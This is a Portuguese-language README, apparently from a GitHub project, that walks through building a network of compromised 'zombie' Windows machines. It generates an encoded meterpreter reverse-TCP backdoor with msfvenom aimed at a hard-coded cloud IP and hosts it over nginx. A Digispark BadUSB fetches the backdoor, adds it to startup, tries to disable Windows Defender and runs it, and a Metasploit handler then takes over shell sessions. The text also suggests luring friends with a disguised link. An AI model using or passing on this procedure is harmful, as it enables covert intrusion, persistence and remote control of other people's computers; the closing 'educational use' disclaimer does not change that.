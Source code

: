 **Criar uma INSTANCIA e definir um IP estatico**
 Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.


**Instalar METASPLOIT e NGINX**
 Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

   Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

 ```shell
 ssh usuario@instancia 
```

  apos se conectar rode instale o nginx ou apache como preferir
 ```shell
 sudo apt-get install -y nginx
```
  agora os comandos abaixo é para instalar o METASPLOIT

 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```

conceder permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```

agora execulte o mesmo

 ```shell
 ./msfinstall
```

E feito isso e não deu nenhum error é so verificar se ta tudo certo.
Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO, qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida.  se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls verá que o arquivo payload.exe foi criado

** Configurar NGINX para download do backdoor**

Vamos criar uma copia dele dentro da nossa pasta do servidor 

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponivel para download em 

http://34.97.212.80/payload.exe


**Digispark**

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 

Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 

Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 

Agora bora lá, para isso você vai precisar de um[ Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16") . Com ele em mãos agora você vai precisar carregar nele os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos d[este tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui

Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev ]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha

Abra o Arduino IDE e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo.

 E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


** INICIAR ESCULTA DAS CONEXOES DO BACKDOOR**

Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta em acesso SSH a nossa instancia iniciamos o console do Metasploit executado

```shell
msfconsole
```
depois de iniciado

```shell
    msf > use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```

**Obter acesso a uma maquina infectada**

Agora basta enviar o link para alguem ou plugar o digispark em alguma maquina e aguardar o primeiro a se juntar a sua rede de zumbis hahahaha

para ficar na esculta em tempo real de quem se conectou ou disconectou rode
```shell
    msf > exploit -j -z
```

 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
você tera uma saida algo como

![](https://s5.gifyu.com/images/sessionsL.png)



e para acessar um "zumbir
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtem acesso shell 

![](https://s5.gifyu.com/images/sessionsI.png)

 
#### ** CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE. **

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDATICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
